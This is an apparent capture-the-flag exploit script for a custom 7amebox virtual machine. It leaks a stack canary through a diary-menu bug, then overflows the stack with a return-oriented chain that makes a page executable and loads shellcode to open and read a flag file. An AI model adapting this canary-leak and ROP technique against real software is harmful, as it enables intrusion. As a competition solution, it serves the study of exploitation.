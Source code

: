 ```
pay+=write_tri(0x3)
pay+=write_tri(canary_loc)

write_diary("1eak_c4n4ry","\xff",pay)


# print list => leak canary

p.recvuntil(">")
p.sendline("1")
p.recvuntil("-\n")

p.recvuntil("1)")
canary=read_tri(p.recv(3))

for i in range(4):
	write_diary("t00_h4rd","7amebox","diary_")


sub_60f_canary_loc=0xf5fb6
write_ebp=0xf5fcb
pr2_pr1_pr0_ret=0x607
pbp_ret=0x315
malloc_n_write=0x228
exec_page=0xdd000
syscall=0x625


pay2="A"*(sub_60f_canary_loc-(0xf1000+0x4ec))
pay2+=write_tri(canary)
pay2+="A"*9
pay2+=write_tri(pr2_pr1_pr0_ret)	#sub_0x60f ret
pay2+=write_tri(0x7)
pay2+=write_tri(0xf5000)
pay2+=write_tri(0x4)
pay2+=write_tri(syscall)
pay2+=write_tri(canary)
pay2+="A"*9
pay2+=write_tri(pr2_pr1_pr0_ret)
pay2+="AAA"
pay2+=write_tri(0x200)
pay2+=write_tri(0x7c000)
pay2+=write_tri(0x60f)	#read(0,r0,r1)
pay2+=write_tri(0x7c000+5)

write_diary("1_will_exp1oit","\xff",pay2)


# self.pipeline.append("flag")
# r0 = fd

shell="flag\x00"    
shell+=mov_reg_value(1,0x7c000)
shell+=mov_reg_value(0,1)
shell+=sys_call()

# read(fd,0xf5000,0x100)

shell+=mov_reg_value(1,2)
shell+=mov_reg_value(2,0xf5000)
shell+=mov_reg_value(3,0x100)
shell+=mov_reg_value(0,3)
shell+=sys_call()
```